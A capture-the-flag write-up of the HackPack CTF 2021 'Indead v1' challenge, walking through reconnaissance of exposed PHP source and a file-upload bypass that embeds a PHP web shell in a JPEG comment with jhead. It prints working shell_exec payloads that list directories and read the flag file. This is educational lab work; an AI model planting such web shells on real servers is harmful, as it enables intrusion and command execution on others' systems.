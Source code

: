 # Indead v1

> Job posting website for security experts, pentesters and hackers. [http://indead-upload-avatar.ctf2021.hackpack.club](http://indead-upload-avatar.ctf2021.hackpack.club/)

I took the first look at the website, there seems to be a file upload function on the index page

![image-Indeadv1-1](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-1.png?raw=true)

Source code :

```html
<form action="/" method="POST" enctype="multipart/form-data">
    <div class="form-row">
        <div class="form-group col-md-6">
            <input type="file" name="avatar">
        </div>
    </div>
    <button type="submit" class="btn btn-success">Upload picture</button>
</form>
```

I tried to upload a random file

![image-Indeadv1-2](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-2.png?raw=true)

Analyzing the page source, I found out that the image was pushed to this very weird path `/very_long_directory_path/`

![image-Indeadv1-3](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-3.png?raw=true)

I tried to read if there's any hidden file around it that they used to hide the flag, and It worked on `/very_long_directory_path/flag.txt`. Unfortunately, the flag we got on that path was a fake flag

I tried to upload a shell to the same function again and I got this

![image-Indeadv1-4](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-4.png?raw=true)

I was wondering what kind of security implementation that they were using

I tried to access to `robots.txt` file and I was lucky

![image-Indeadv1-5](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-5.png?raw=true)

Now I know they're probably exposing the PHP source code to the internet. My first try is the `index.phps` file

![image-Indeadv1-6](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-6.png?raw=true)

`core.php` was also exposed, and it was about the uploading function which is what I needed

![image-Indeadv1-7](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-7.png?raw=true)

People who are wary of falsified MIME types and extra file extensions often advocate the use of something like `getimagesize() `

To exploit this kind of vulnerability I used [jhead](http://www.sentex.net/~mwandel/jhead/) tool to embed a comment inside a decoy image file

```
C:\Users\Admin\Downloads>jhead.exe -ce uniguri.jpg.php
Modified: uniguri.jpg.php
```

Shell injected :

```php
<?php echo shell_exec("pwd"); echo shell_exec("ls -la"); __halt_compiler();
```

The `__halt_compiler()`function call is there so that the image data doesn’t accidentally get interpreted as PHP and throw a parse error. This is why the output stops before outputting the actual image data

It is successfully uploaded

![image-Indeadv1-8](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-8.png?raw=true)

After wandering around, I found out that the flag was being hidden at `/www/html/flag.txt`

I crafted the final shell to read the flag :

```php
<?php echo shell_exec("cat /www/html/flag.txt"); __halt_compiler();
```

![image-Indeadv1-9](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-9.png?raw=true)

Flag :

```
flag{y3t_an0ther_file_uplo@d_vuln}
```


